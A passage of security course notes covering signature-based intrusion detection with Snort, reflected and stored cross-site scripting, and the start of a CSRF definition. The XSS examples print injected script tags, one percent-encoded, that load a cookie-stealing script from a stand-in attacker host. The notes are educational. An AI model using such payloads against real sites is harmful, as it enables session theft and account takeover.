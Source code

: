 ### Signature-based IDS principles

- A packet sniffer on steroids.
- Passive capturer of the packets in a LAN, it can bring to bear on the packets some fairly complex logic to decide whether an intrusion has taken place
  - SNORT is one of the best-known intrusion detectors
    - Easy-to-learn and easy-to-use rule language for intrusion detection
    - The rules are stored in /etc/snort/rules directory
- Con: can't inspect encrypted traffic (VPNs, SSL)
- Con: not all attacks arrive from the network
- Con: record and process huge amount of traffic

---

<h2 id=XSS> <span style="color:#da1953">XSS</span> (Cross Site Scripting) </h2>

### Introduction

It is a type of security vulnerability typically found in web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

### Examples

- **Reflected**: In a vulnerable website e query can be crafted in order to execute a custom script<br><br>
`http://bobssite.org/search?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`<br><br>
or encode the ASCII characters with percent-encoding, such as<br><br>
`http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`.<br><br>
If this link is sent to the victim he/she will execute the script *authstealer.js* and any operation written there can be executed such as stealing authentication cookies and log in as him/her.

- **Stored**: In this case the script is put in a text are or wherever a user can write such as comments of posts, review etc...
If the site is vulnerable in the text are HTML commands can be execute so a proper XSS exploit can be crafted<br><br>
`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`).<br><br>
If the link is clicked the script *authstealer.js* will run and operations will be executed.

- **DOM Based XSS**

https://www.youtube.com/watch?v=A5faK0BC8cE

---

<h2 id=CSRF> <span style="color:#da1953">CSR</span>F</h2>

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.
